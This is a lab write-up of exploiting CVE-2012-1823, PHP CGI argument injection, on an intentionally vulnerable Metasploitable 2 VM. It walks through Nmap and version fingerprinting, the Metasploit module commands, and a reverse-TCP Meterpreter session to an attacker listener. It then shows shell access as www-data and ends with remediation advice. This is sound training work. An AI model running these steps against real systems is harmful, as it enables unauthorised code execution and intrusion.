

# PHP CGI Argument Injection Exploitation Lab

This lab documents exploitation of CVE-2012-1823 — a PHP CGI argument injection vulnerability — against Metasploitable 2's Apache/PHP stack. The activity was performed only against an intentionally vulnerable virtual machine for educational purposes.

## Objective

Identify Apache's PHP-handling version on Metasploitable 2, exploit CVE-2012-1823 with Metasploit's `multi/http/php_cgi_arg_injection` module, and validate post-exploitation access as `www-data`.

## Lab Environment

### Attacker Machine

- Linux penetration testing workstation
- Tools used: Nmap, Metasploit Framework (`msfconsole`), `searchsploit`
- Attacker IP: `192.168.29.176` (NAT'd host network)
- Listener port: `4444/tcp`

### Target Machine

- Target: **Metasploitable 2** (Ubuntu 8.04)
- Target IP: `192.168.122.229`
- Vulnerable service: Apache 2.2.8 (Ubuntu) DAV/2 with PHP 5.2.4-2ubuntu5.10
- HTTP port: `80/tcp`
- Post-exploitation user: `www-data`

### Network

- Virtual lab via VMs (host-only/NAT hybrid)
- Attacker and target reachable across a NAT'd hypervisor network

## Screenshots



*Metasploit `multi/http/php_cgi_arg_injection` module configuration, successful exploitation, and post-exploitation shell as `www-data`.*

## Tools Inventory

| Category | Tool | Purpose |
|---|---|---|
| Reconnaissance | Nmap | Port scanning & service version detection |
| Reconnaissance | `http_version` aux module | HTTP server & PHP version fingerprinting |
| Search | `searchsploit` | Offline exploit-db lookup |
| Exploitation | Metasploit `multi/http/php_cgi_arg_injection` | CVE-2012-1823 exploitation |
| Payload | `php/meterpreter/reverse_tcp` | Reverse Meterpreter session via PHP payload |

## Enumeration

### Nmap Service Scan

The target was previously scanned with `nmap -A 192.168.122.229`, revealing port `80/tcp` with Apache 2.2.8:

```
80/tcp  open  http     Apache httpd 2.2.8 (Ubuntu) DAV/2
```

### HTTP Server Fingerprinting

The Metasploit `auxiliary/scanner/http/http_version` module was run against the target to identify the exact server version and PHP component:

```
[+] 192.168.122.229:80 Apache/2.2.8 (Ubuntu) DAV/2 PHP/5.2.4-2ubuntu5.10
```

This revealed PHP 5.2.4-2ubuntu5.10 — an outdated version associated with known CGI argument injection vulnerabilities.

## Vulnerability Identification

### CVE-2012-1823 — PHP CGI Argument Injection

PHP versions before 5.3.12 and 5.4.2 running as a CGI handler accept query string arguments that are interpreted as PHP configuration directives. By passing `-d` style flags via the query string, an attacker can:

- Set `allow_url_include=1`
- Point `auto_prepend_file` to a remote payload
- Achieve arbitrary code execution under the web server user context

### Module Search

```
searchsploit apache 2.2 php
searchsploit php cgi
```

The relevant Metasploit module was identified as:

```
exploit/multi/http/php_cgi_arg_injection
```

The module description confirmed it targets exactly the PHP CGI handing pattern found on this Metasploitable 2 instance.

## Exploitation

### Module Configuration

```text
msf6 > use exploit/multi/http/php_cgi_arg_injection
```

The default `show options` output:

| Option | Setting | Required | Description |
|---|---|---|---|
| `RHOSTS` | — | yes | Target host(s) |
| `RPORT` | 80 | yes | HTTP port |
| `LHOST` | — | yes | Attacker listener address |
| `LPORT` | 4444 | yes | Attacker listener port |
| `SSL` | false | no | Negotiate SSL |
| `URIENCODING` | 0 | yes | URI encoding level |

### Payload

The default payload `php/meterpreter/reverse_tcp` was used. No payload change was needed.

### Run

```text
set RHOSTS 192.168.122.229
set LHOST 192.168.29.176
run
```

Result:

```text
[*] Started reverse TCP handler on 192.168.29.176:4444
[*] Sending stage (45739 bytes) to 192.168.122.229
[*] Meterpreter session 1 opened (192.168.29.176:4444 -> 192.168.122.229:38872) at 2026-07-29 18:04:12 +0530
```

The exploit succeeded on the first attempt with no troubleshooting required.

## Post Exploitation

### Shell Access

Meterpreter's `whoami` command was not recognized (the default payload is PHP-based, not a full Meterpreter stage), so an interactive system shell was spawned:

```text
meterpreter > shell
Process 4692 created.
Channel 1 created.
```

### User Context

```bash
whoami
www-data
```

The shell confirmed execution under the Apache web server user.

### Web Root Enumeration

Listing the web root (`/var/www/`) revealed the typical Metasploitable 2 web application collection:

```
dav
dvwa
index.php
mutillidae
phpMyAdmin
phpinfo.php
test
tikiwiki
tikiwiki-old
twiki
```

Navigated to the DVWA directory:

```
cd dvwa
pwd
/var/www/dvwa
```

This confirms full interactive filesystem access as `www-data`, enabling further lateral movement and privilege escalation within the target.

## Lessons Learned

- Version fingerprinting (`http_version`) provides precisely the detail needed to match a CVE — Apache version alone was not enough; PHP version was the critical signal.
- CVE-2012-1823 is a configuration injection, not a memory corruption bug. The entire exploitation chain from query string to shell is built on how PHP parses CGI arguments, making it a clean example of how web server misconfiguration enables code execution.
- The `php/meterpreter/reverse_tcp` payload does not include a full Meterpreter command set (e.g., `whoami` is unavailable). Dropping to `shell` is the expected way to run system commands.
- The exploit succeeded on the first attempt with default settings. Not every lab requires troubleshooting — straightforward results are worth documenting as a baseline.
- Metasploitable 2's `/var/www/` contains multiple vulnerable web applications (DVWA, Mutillidae, phpMyAdmin, TikiWiki, etc.), each offering an independent exploitation path from the same foothold.

## Remediation

| Control | Action |
|---|---|
| Version upgrade | Upgrade PHP to 5.3.12+ or 5.4.2+ (CVE-2012-1823 fix) |
| SAPI selection | Run PHP as an Apache module (`mod_php`) or FPM instead of CGI to disable query-string argument parsing |
| Input validation | Reject query strings containing `-d`, `-e`, or other PHP CLI flags at the reverse proxy or WAF layer |
| Principle of least privilege | Ensure the web server user has no write access outside the document root to limit post-exploitation impact |
| Web application firewall | Deploy ModSecurity or equivalent with rulesets covering PHP CGI argument injection (OWASP CRS) |
| Patching cadence | Subscribe to PHP security announcements and apply patches within the organization's SLA |

## References

- [NVD: CVE-2012-1823](https://nvd.nist.gov/vuln/detail/CVE-2012-1823)
- [Rapid7 Module: PHP CGI Argument Injection](https://www.rapid7.com/db/modules/exploit/multi/http/php_cgi_arg_injection/)
- [PHP Release Notes: 5.4.2](https://www.php.net/ChangeLog-5.php#5.4.2)
- [OWASP: PHP CGI Argument Injection](https://owasp.org/www-community/attacks/PHP_Configuration_Injection)
